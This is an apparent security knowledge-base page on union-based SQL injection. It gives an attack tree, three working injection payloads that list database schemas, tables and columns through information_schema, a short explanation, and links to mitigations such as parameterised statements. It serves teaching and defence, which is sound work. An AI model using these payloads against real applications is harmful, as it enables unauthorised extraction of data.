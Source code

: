 # Extracting data from the database

## Attack tree

```text
1 SQL injection extract data from 
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment that will modify the WHERE clause and make it true
    1.5 Inject SQL statements into the column
    1.4 Post exploitation
```
## Examples

Database names:
```text
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

Tables of a database:
```text

-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
```

Column names:
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

## Notes

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.

## Cheatsheets
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [MySQL commands](cheatsheets:docs/databases/mysql-commands)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterised)
* [Input validation](app-mitigations:docs/databases/Input-validation)